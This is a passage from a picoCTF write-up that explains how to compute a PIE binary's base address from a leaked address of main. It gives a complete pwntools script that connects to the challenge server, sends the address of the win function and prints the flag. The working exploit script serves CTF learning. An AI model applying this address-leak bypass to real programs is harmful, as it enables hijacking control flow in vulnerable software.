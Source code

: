 Instead of:
```python
base = addr_main - offset_main
addr_win = base + offset_win
```

You could do:
```python
elf.address = addr_main - elf.sym["main"]
```
Now `elf.sym["win"]` is the actual address of `win` instead of its offset.

Finally, turn the address of `win`, which is in integer form, into hexadecimal literal and send to the program.


### Solution
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./vuln_patched")

context.binary = elf
context.terminal = ["alacritty", "-e", "sh", "-c"]
dbginit = """
b main
"""

def conn():
    if args.REMOTE:
        r = remote("rescued-float.picoctf.net", 54073)
    elif args.GDB:
        r = gdb.debug([elf.path], gdbscript=dbginit)
    else:
        r = process([elf.path])
    return r


def main():
    r = conn()

    r.recvuntil(b'Address of main: ')

    # turn string into int
    addr_main = int(r.recvuntilS(b'\n', drop=True), 16)

    # calculate the base address
    elf.address = addr_main - elf.sym["main"]

    # turn address of win into hexadecimal literal
    payload = hex(elf.sym["win"])

    # send the payload
    r.sendlineafter(b'Enter the address to jump to, ex => 0x12345: ', payload)

    # throw away the garbage
    r.recvuntil(b'You won!\n')

    # get the flag
    flag = r.recvuntil(b'\n', drop=True).decode("ascii")

    print()
    print(flag)
    print()
```